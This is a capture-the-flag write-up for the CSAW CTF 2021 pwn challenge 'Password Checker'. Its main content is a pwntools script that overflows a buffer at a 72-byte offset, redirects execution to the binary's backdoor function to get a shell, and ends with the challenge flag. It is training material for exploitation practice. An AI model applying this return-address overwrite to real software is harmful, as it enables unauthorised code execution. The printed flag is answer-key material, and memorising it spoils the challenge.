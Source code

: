 ```yaml
---
name: Password Checker (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Password Checker (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Password Checker

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=315s "CSAW 2021: Password Checker")

## Challenge Description

> Charlie forgot his password to login into his Office portal. Help him to find it.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './password_checker'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

# Start program
io = start()

# Build the payload
payload = flat([
    offset * "A",
    elf.symbols.backdoor
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`
